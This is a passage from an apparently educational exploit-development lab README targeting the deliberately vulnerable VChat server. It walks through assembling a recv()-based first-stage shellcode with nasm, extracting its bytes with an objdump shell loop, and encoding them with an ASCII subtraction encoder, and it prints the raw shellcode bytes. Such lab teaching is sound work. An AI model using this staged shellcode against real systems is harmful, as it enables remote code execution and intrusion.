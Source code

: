 	* For the initial instruction, you only need to subtract from the stack pointer by 1-2 bytes since our current `ESP` value will point to the first instruction. Later, we still want to perform the large addition (in this case, a value of `0x64`) on the saved `ESP` value so that our second stage will be written ahead of our first stage shellcode.
	* Keep in mind that you may need to adjust the address used in the `mov eax,0x776A1260` instruction. Below is an example of using Arwin to find the address of the `recv(...)` function.

		<img src="Images/arwin.png" width=800>

3. Now, we need to assemble the assembly into machine code and then extract the machine instructions so we can encode them.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/5535983c-3398-4f38-b8e4-b440e4104aab <!-- Replace -->

	1. Ensure nasm is installed, if not you will need to [install it](https://nasm.us/) and add it to the path.

		<img src="Images/I51.png" width=800>

	2. Run nasm on the target assembly, Run: `nasm -f elf32 -o shellcode.o shellcode.asm`.
		* `nasm`: Netwide Assembler assembles assembly into x86 machine code.
		* `-f elf32`: elf32 format.
		* `-o shellcode.o`: Shellcode file.
		* `shellcode.asm`: input file.
	3. Extract the binary with a simple [shell script](./SourceCode/extract.sh).
		```sh
		for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do
			echo -n '\x'$i;
		done;
		echo
		```
		* `for i in`: For each value `$i` generated by the following command.
		* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode.
			* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format.
			* `grep "^ "`: Extract only those lines containing assembly.
			* `cut -f2`: Extract the second field, this contains the hex representation of the instructions.
		* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`.
		* `echo`: Print an extra line.
		* **Note**: If you create this file, be sure to make it executable with `chmod +x extract.sh`, then you can run it using the command `./extract.sh`.

		<img src="Images/I52.png" width=800>

	4. Use the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder) to encode our first stage shellcode.

		```
		python3 encoder.py -m -p -s '\x83\xec\x02\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47\x57\xb8\xa0\x23\x6a\x77\xff\xd0\x85\xc0\x75\xe6' -v FIRST_STAGE
		```
		* `python3 encoder.py`: Run the `encoder.py` with the python3 interpreter.
		* `-m`: Generates shellcode in the format expected by python `\x00 - \xff`.
		* `-p`: Pad shellcode so it is a multiple of 4.
		* `-s <Shellcode>`: Shellcode to encode as we added the `-p` flag this can be of any length.
		* `-v`: Name of variable for output.
